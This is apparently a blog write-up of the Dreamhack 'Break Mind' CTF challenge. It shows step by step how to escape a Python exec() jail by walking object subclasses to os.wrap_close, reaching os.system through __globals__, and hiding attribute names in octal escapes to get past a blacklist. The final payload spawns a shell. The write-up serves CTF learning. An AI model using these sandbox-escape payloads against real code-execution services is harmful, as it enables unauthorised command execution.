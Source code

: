 ```yaml
---
title: "Break Mind writeup"
date: 2025-10-29
description: "dreamhack level 3 pyjail"
tags: ["dreamhack", "ctf", "pyjail"]
---
```


## Break Mind

<img src="/blog/dreamhack_break_mind_writeup/images/chall.png" width=400>

We are given a pyjail where our payload is run against an `exec()` call with no length restrictions, and a simple blacklist is also implemented.  

<img src="/blog/dreamhack_break_mind_writeup/images/blacklist.png" width=200>

The more concerning aspect of the jail is the deletion of methods and classes from `__builtins__`, meaning direct access is completely removed.  

<img src="/blog/dreamhack_break_mind_writeup/images/delete.png" width=300>

Since no Dockerfile is provided, we have no way of knowing the exact location of the flag file, so the best option is to spawn a shell.  

A pretty common trick to bypass `__builtins__` nukes is to access subclasses through an attribute chain on a tuple.  

```python
().__class__.__base__.__subclasses__()
```

Our target would be the `os.wrap_close` class, as it contains a reference to `__globals__`, which we can use to execute system commands.  

Since `[]` is blacklisted, we can filter and access the class through dictionary comprehension. I'm also using an f-string to get the class name as `str()` has been nuked.  

```python
{'x':x for x in ().__class__.__base__.__subclasses__() if 'wrap_close' in f'{x}'}.get('x')
```

We can use another attribute chain to get a reference to `os.system` and execute `sh`.  

```python
{'x':x for x in ().__class__.__base__.__subclasses__() if 'wrap_close' in f'{x}'}.get('x').__init__.__globals__.get('system')('sh')
```

Bypassing the blacklist is pretty straightforward, as we can simply use octal encoding and `getattr()`.  

```python
getattr(getattr({'x':x for x in getattr(getattr(getattr((), "\137\137\143\154\141\163\163\137\137"), "\137\137\142\141\163\145\137\137"), "\137\137\163\165\142\143\154\141\163\163\145\163\137\137")() if 'wrap_close' in f'{x}'}.get('x'), '\137\137\151\156\151\164\137\137'), "\137\137\147\154\157\142\141\154\163\137\137").get('\163\171\163\164\145\155')('\163\150')
```

Submitting the payload then spawns a shell which reveals the flag file in the current directory.  

<img src="/blog/dreamhack_break_mind_writeup/images/flag.png" width=600>